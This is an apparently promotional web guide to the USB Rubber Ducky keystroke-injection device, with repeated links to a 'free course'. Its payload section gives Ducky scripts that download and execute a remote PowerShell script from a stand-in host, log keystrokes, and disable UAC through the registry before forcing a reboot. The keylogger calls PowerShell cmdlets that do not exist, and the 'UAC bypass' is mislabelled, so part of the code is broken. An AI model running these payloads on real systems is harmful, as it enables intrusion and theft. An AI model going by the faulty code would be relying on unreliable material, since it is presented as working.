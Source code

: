 # Unleash the Power of the Ducky Tool: Your Comprehensive Guide

The Ducky Tool, often referred to as a USB Rubber Ducky, is a fascinating and potent device in the realm of cybersecurity, ethical hacking, and penetration testing. It's a small, unassuming USB drive, but beneath its exterior lies the capability to execute pre-programmed keystrokes at incredibly rapid speeds, mimicking human input and automating tasks in ways that can bypass conventional security measures. This article will delve into the intricacies of the Ducky Tool, exploring its functionality, ethical considerations, common applications, and how you can leverage its power for both defensive and offensive security purposes.

Want to master the Ducky Tool and ethical hacking? **Grab this comprehensive course for free!** [Download Now](https://udemywork.com/ducky-tool)

## Understanding the Ducky Tool: A Hacker's Swiss Army Knife

At its core, the Ducky Tool is a programmable HID (Human Interface Device). This means that when plugged into a computer, it identifies itself as a keyboard. The magic lies in its ability to execute a script, written in a simple language called "Ducky Script," that simulates keystrokes. These keystrokes can include commands to open applications, manipulate files, download payloads, and even compromise systems in a matter of seconds.

The beauty (and potential danger) of the Ducky Tool stems from its speed and stealth. Because it's recognized as a keyboard, it often bypasses security measures designed to detect malicious software or unauthorized access. This makes it a powerful tool for both attackers and defenders.

## Ethical Considerations: Using the Ducky Tool Responsibly

Before diving into the technical aspects, it's crucial to address the ethical implications of using the Ducky Tool. Like any powerful tool, it can be used for both good and bad purposes. Using it without proper authorization or for malicious activities is illegal and unethical.

The Ducky Tool should only be used in environments where you have explicit permission to do so. This includes:

*   **Penetration Testing:** Assessing the security posture of a system or network with the owner's consent.
*   **Security Awareness Training:** Demonstrating the vulnerabilities of systems to educate users about potential threats.
*   **Automation:** Automating repetitive tasks on systems you own or have permission to manage.
*   **Red Teaming:** Simulating real-world attacks to test an organization's defenses.

Always remember that responsible use of the Ducky Tool is paramount. Gaining unauthorized access to systems or data can have severe legal and ethical consequences.

## Key Features and Functionality

The Ducky Tool boasts several features that make it a versatile tool for security professionals:

*   **Rapid Execution:** Scripts execute at speeds far exceeding human typing, making attacks quick and efficient.
*   **Scripting Language:** Ducky Script is relatively simple to learn and use, allowing for rapid development of custom payloads.
*   **Payload Library:** A vast library of pre-written payloads is available online, covering a wide range of tasks.
*   **Stealth:** Its unassuming appearance helps it blend in, making it difficult to detect.
*   **Cross-Platform Compatibility:** It can be used on Windows, macOS, and Linux systems.

## Common Applications: From Automation to Penetration Testing

The Ducky Tool finds applications in various scenarios, including:

*   **Password Extraction:** Extracting stored passwords from browsers or password managers.
*   **Keylogging:** Capturing keystrokes to steal sensitive information. (Ethically questionable, use with caution and permission)
*   **System Lockdown Bypass:** Circumventing security measures to gain access to locked systems.
*   **Data Exfiltration:** Stealing sensitive data from a system.
*   **Automating Tasks:** Automating repetitive tasks such as software installation or configuration changes.
*   **Network Reconnaissance:** Gathering information about a network, such as IP addresses and open ports.
*   **Malware Installation:** Downloading and installing malicious software.
*   **Social Engineering:** Simulating social engineering attacks to test user awareness.
*   **Red Team Exercises:** Simulating real-world attacks to test an organization's defenses.

## Diving Deeper: Ducky Script and Payload Development

The power of the Ducky Tool lies in its ability to execute custom scripts. Ducky Script is a simple yet powerful language that allows you to define the sequence of keystrokes that the Ducky Tool will execute.

Here's a basic example of a Ducky Script that opens Notepad and types "Hello, World!":

```duckyscript
DELAY 2000  # Wait 2 seconds
GUI r        # Press Windows key + R to open the Run dialog
DELAY 500
STRING notepad # Type "notepad"
ENTER        # Press Enter to open Notepad
DELAY 1000
STRING Hello, World! # Type "Hello, World!"
```

Let's break down this script:

*   **DELAY:** Pauses the execution of the script for a specified number of milliseconds. This is important to allow time for applications to open and respond.
*   **GUI:** Simulates pressing the Windows key. In this case, `GUI r` opens the Run dialog.
*   **STRING:** Types a specified string of characters.
*   **ENTER:** Simulates pressing the Enter key.

This simple example demonstrates the basic principles of Ducky Script. You can use these commands, along with others, to create more complex scripts that automate tasks, bypass security measures, and even compromise systems.

**Unlock the full potential of Ducky Script with this free, in-depth course.**  [Start Learning Today!](https://udemywork.com/ducky-tool)

## Building More Sophisticated Payloads

With a solid understanding of Ducky Script, you can begin crafting more sophisticated payloads. Here are some examples:

*   **Downloading and Executing a Payload:** This script downloads a payload from a remote server and executes it. This is a common technique used by attackers to deliver malware.

```duckyscript
DELAY 2000
GUI r
DELAY 500
STRING powershell "iex(new-object net.webclient).downloadstring('http://example.com/payload.ps1')"
ENTER
```

*   **Keylogging:** This script captures keystrokes and saves them to a file. (Remember to use this ethically!)

```duckyscript
REM Keylogger (Ethical Use Only!)
DELAY 2000
GUI r
DELAY 500
STRING powershell "$LogFile = 'C:\\keylog.txt'; $KeyPress = { $Key = $Event.Args.Event.Key; Add-Content -Path $LogFile -Value $Key }; $Hook = Set-Hook -ScriptBlock $KeyPress -FilterScript { $_.EventType -eq 'Keyboard' }; Write-Host 'Keylogger Running...'; sleep -Seconds 60; Remove-Hook $Hook"
ENTER
```

*   **Bypassing User Account Control (UAC):** This script attempts to bypass UAC to execute commands with elevated privileges.

```duckyscript
REM UAC Bypass (Requires UAC Enabled)
DELAY 2000
GUI r
DELAY 500
STRING cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
ENTER
DELAY 1000
STRING shutdown /r /t 0
ENTER
```

## Defending Against Ducky Tool Attacks

While the Ducky Tool can be a powerful offensive tool, it's equally important to understand how to defend against it. Here are some preventative measures:

*   **Physical Security:** Restricting physical access to systems is the most effective way to prevent Ducky Tool attacks.
*   **USB Device Control:** Implementing policies to restrict the use of unauthorized USB devices can significantly reduce the risk.
*   **User Awareness Training:** Educating users about the dangers of plugging in unknown USB devices is crucial.
*   **Software Restrictions:** Using software restriction policies to prevent the execution of unauthorized programs can mitigate the impact of Ducky Tool attacks.
*   **Monitoring and Logging:** Monitoring system logs for suspicious activity can help detect and respond to Ducky Tool attacks.
*   **Endpoint Detection and Response (EDR):** EDR solutions can detect and block malicious activity associated with Ducky Tool attacks.

## Conclusion: A Powerful Tool for Security Professionals

The Ducky Tool is a powerful and versatile tool that can be used for both offensive and defensive security purposes. By understanding its functionality, ethical considerations, and common applications, security professionals can leverage its power to improve their organization's security posture. However, it's crucial to remember that responsible use is paramount, and the Ducky Tool should only be used with proper authorization and for ethical purposes.

Ready to take your skills to the next level? **Enroll in this free Ducky Tool course and become a cybersecurity expert!** [Claim Your Spot Now](https://udemywork.com/ducky-tool)
